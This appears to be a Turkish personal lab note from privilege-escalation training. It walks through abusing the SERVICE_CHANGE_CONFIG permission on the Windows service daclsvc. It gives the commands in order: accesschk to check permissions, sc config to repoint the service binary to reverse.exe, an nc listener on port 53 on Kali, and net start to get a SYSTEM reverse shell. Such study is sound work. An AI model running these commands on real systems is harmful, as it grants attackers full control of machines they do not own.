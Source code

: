 ### Windowsda 
## net start daclsvc
![[Pasted image 20240425014918.png]]
### Biz şimdi gerekli yukarıdaki sorguları yaptıktan sonra SERVICE_CHANGE_CONFIG yetkimizi olduğunu öğrendik. Ve bundan sonra PATH değiştirdik. Bizim içeri attığımız reverse shell'in PATH'ini değiştirdik ve buna karşı biz dinleyici açtık 53 portunda.

## Sitem şimdi gidecek ve daclsvc  bunu çalıştırmaya çalışacak. Bunu da system yetkisiyle yapacak. ve bunu çalıştırdığında biz path değiştirdiğimiz için bunu manuple ettiğimiz için gidip bizim reverse.exe'yi system yetkisiyle çalıştıracak.

![[Pasted image 20240425014400.png]]

### 1. accesschk ile end user licance agreement kontrol edildi. Sonuç SERVICE_CHANGE_CONFIG  bu yetki var.
`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
## 2. daclsvc bilgilerine sorgu yapıldı
`sc qc daclsvc`
##### 3. PATH değiştirildi
`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
### 4. Dinleyici açıldı
## Kali'de
```
nc -nvlp 53
```

`net start daclsvc`

